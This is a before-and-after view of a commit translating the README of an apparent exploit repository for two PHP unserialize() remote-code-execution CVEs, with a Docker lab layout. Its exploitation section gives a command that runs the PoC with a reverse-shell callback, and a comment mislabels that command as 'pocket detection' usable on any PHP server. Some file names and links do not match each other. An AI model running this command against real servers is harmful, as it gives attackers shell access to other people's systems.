

Before and after one commit to DevAli00/RCE-POCKET-POC-for-PHP2SHELL, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; badges without logos; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Translate README and update exploitation command

````diff
--- a/README.md
+++ b/README.md
@@ -1,12 +1,12 @@
 # PHP2SHELL — CVE-2026-109618 / CVE-2026-109619
 
-**Karim BOUDRA @ ULTRADEFENSE LAB** · 21 octobre 2026 · lab uniquement
+**Karim BOUDRA @ ULTRADEFENSE LAB** · October 21, 2026 · lab use only
 
 ![CVE-2026-109618](https://img.shields.io/badge/CVE--2026--109618-RCE-red)
 ![CVE-2026-109619](https://img.shields.io/badge/CVE--2026--109619-RCE-red)
-![PHP](https://img.shields.io/badge/PHP-8.5.11%20vulnérable-blue)
-![Chaînes](https://img.shields.io/badge/RCE-4%2F4%20confirmées-brightgreen)
-![Portée](https://img.shields.io/badge/portée-lab%20uniquement-yellow)
+![PHP](https://img.shields.io/badge/PHP-8.5.11%20vulnerable-blue)
+![Chains](https://img.shields.io/badge/RCE-4%2F4%20confirmed-brightgreen)
+![Scope](https://img.shields.io/badge/scope-lab%20only-yellow)
 
-## Démonstration vidéo
+## Video demonstration
 
@@ -14,53 +14,53 @@
 
-**[▶ Lire la vidéo complète](POC-demo.mp4)**
+**[▶ Play the full video](POC-demo.mp4)**
 
-Deux RCE dans le coeur de `unserialize()` de PHP (branches `C:` Serializable et
-`E:` enum-autoload du `var_unserializer.re`), reproduites le jour même du patch :
-root en local avec `disable_functions` contourné, shell `www-data` à distance en
-~2 200 requêtes, en HTTP comme en TLS, pour les deux CVE.
+Two RCEs in PHP's `unserialize()` core (`C:` Serializable and `E:` enum-autoload
+branches in `var_unserializer.re`), reproduced on the day the patch was released:
+local root with `disable_functions` bypassed, and a remote `www-data` shell in
+~2,200 requests over both HTTP and TLS, for both CVEs.
 
 ## Structure
 
-```
-LAB/                     cible vulnérable en Docker, config bridge
-  Dockerfile             php:8.5.11-apache épinglé, deux portes + TLS + checker
-  docker-compose.yml     network_mode: bridge, ports 8486 (http) / 8483 (https)
-  run.sh                 up | status | down | clean
-  remote_app.php         porte C: (Serializable)
-  remote_app_enum.php    porte E: (autoload d'enum)
-  check.php              détecteur safe des 2 branches + scan des sinks
-POC/
-  POCKETPOC-PHP2SHELL.py         exploit avec reverse shell
-index.html               page du dépôt
+- `LAB/` — vulnerable Docker target with bridge networking
+  - `Dockerfile` — PHP 8.5.11 Apache, two entry points, TLS, and checker
+  - `docker-compose.yml` — bridge network, ports 8486 (HTTP) and 8483 (HTTPS)
+  - `run.sh` — `up | status | down | clean`
+  - `remote_app.php` — `C:` entry point (`Serializable`)
+  - `remote_app_enum.php` — `E:` entry point (enum autoload)
+  - `check.php` — safe detector for both branches and sink scanner
+- `POC/`
+  - [POCKETPOC-PHP2SHELL.py](https://github.com/KarimUD7/RCE-POCKET-POC-for-PHP2SHELL/blob/main/POC/POCKETPOC-PHP2SHELL.py "POCKETPOC-PHP2SHELL.py")
+- `POC-demo.mp4` — full video
+- `POC-preview.gif` — animated preview
+- `README.md` — documentation
+- `index.html` — repository page
+
+## Prerequisites
+
+| Tool | Purpose | Tested with |
+|---|---|---|
+| Python >= 3.8 | remote exploits `php8_remote*.py` | 3.14.5 (macOS arm64) |
+| PHP CLI >= 7.4 | pocket PoC `pocket_poc.php` | 8.5.11 (NTS) |
+| Docker + Compose | target lab `LAB/` | 29.6.2 / v5.1.4 |
+
+```bash
+python3 --version                  # >= 3.8 required
+php --version                      # CLI, for the pocket PoC
+docker compose version             # for LAB/run.sh
 ```
 
-## Prérequis
-
-| Outil | Rôle | Testé avec |
-|---|---|---|
-| Python >= 3.8 | exploits distants `php8_remote*.py` | 3.14.5 (macOS arm64) |
-| PHP CLI >= 7.4 | PoC de poche `pocket_poc.php` | 8.5.11 (NTS) |
-| Docker + Compose | lab cible `LAB/` | 29.6.2 / v5.1.4 |
-
-
-```bash
-python3 --version                  # >= 3.8 requis
-php --version                      # CLI, pour le PoC de poche
-docker compose version             # pour LAB/run.sh
-```
-
-## Démarrage
+## Getting started
 
 ```bash
 cd LAB
-./run.sh up          # build + conteneur bridge, écoute sur toutes les interfaces
-# local : http://127.0.0.1:8486     lan : http://iplan:8486
+./run.sh up          # build + bridge container, listening on all interfaces
+# local: http://127.0.0.1:8486     LAN: http://iplan:8486
 ```
 
 ## Exploitation
 
 ```bash
-# détection de poche (n'importe quel serveur PHP)
+# pocket detection (any PHP server)
 python3 POCKETPOC-PHP2SHELL.py --url http://172.20.10.5:8486/remote_app.php --reverse 172.20.10.5:4444
 ```
 
````
Also changed, not shown: other parts of README.md (+28 -28 lines).
